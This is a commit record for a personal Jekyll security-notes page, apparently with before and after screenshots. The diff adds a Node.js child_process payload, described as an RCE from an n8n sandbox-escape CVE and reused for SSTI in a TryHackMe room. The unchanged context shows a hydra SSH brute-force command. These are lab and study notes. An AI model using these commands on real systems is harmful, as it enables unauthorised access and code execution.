

Before and after one commit to cloudskim/cloudskim.github.io, a Jekyll site: the page built from _posts/2026-10-17-my-notes.md, in a window 1280 px wide and 900 px high, scrolled down 1773 px. Shown: the top 855 px of the window, without its empty margins (148-1131 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2502 px from its top, so only the background shows below that.

Commit message:
Update _posts/2026-10-17-my-notes.md (via Pages CMS)

```diff
--- a/_posts/2026-10-17-my-notes.md
+++ b/_posts/2026-10-17-my-notes.md
@@ -41,10 +41,12 @@ for ssh login
 
 hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.49.158.247
 
+This payload is useful for gaining RCE, it was originally from **n8n Expression Sandbox Escape to RCE (CVE-2025-68613)** but I used in SSTI vulnerability from THM challenge 'PUG', it was a PUG to HTML converter.
 
-
-&nbsp;
+global.process.mainModule.require('child_process').execSync('id').toString()
 
 ---
 
 ### Resources
+
+[https://github.com/vulhub/vulhub/blob/master/n8n/CVE-2025-68613/README.md](https://github.com/vulhub/vulhub/blob/master/n8n/CVE-2025-68613/README.md)
```
